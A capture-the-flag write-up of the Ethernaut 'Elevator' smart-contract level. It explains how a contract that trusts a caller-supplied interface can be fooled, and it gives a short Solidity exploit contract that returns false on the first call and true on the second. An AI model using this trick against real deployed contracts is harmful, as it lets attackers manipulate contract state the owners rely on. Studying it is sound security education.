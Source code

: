 # Elevator

>This elevator won't let you reach the top of your building. Right?
>
>Things that might help:
>* Sometimes solidity is not good at keeping promises.
>* This Elevator expects to be used from a Building.

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

Interfaces in solidity are similar to abstract contracts and do not have implementation for any function. By specifying function names, parameter types, and return types without implementing the actual code, Solidity interfaces enable contracts to interact seamlessly with one another and external entities.

Here, our motive is preetty straightforward. All we have to do is make the value of the `top` variable `true`.
We can see this being achieved via the `goTo` function. This function creates an instance of `Building` with `msg.sender` address. This instance must support the `isLastFloor` function which will be used later on in the function.

If the condition is `true`, the `floor` will be made the one we specify and then the `top` variable will be set to either `true` or `false` depending upon what `isLastFloor` function returns for the second time.

Therefore, to successfully pass this level we must make this `isLastFloor` function return `false` the first time and `true` when it is called the second time.

The implementation of above plan is as follows
```solidity
contract exploit{
    Elevator e;
    constructor (address _addr){
        e = Elevator(_addr);
    }
    uint public good_num = 0;
    function hack() public {
        e.goTo(1);
    }
    function isLastFloor(uint _floor) external returns (bool) {
        bool ans = good_num==1?true:false;
        good_num++;
        return ans;
    }
}
```

The above contract can be deployed through remix using Injected MetaMask Provider and the instance address to be fed to its constructor.

When the `hack` function is called, the value of `top` changes to `true`. We can confirm this through the browser's console and then submit the instance.
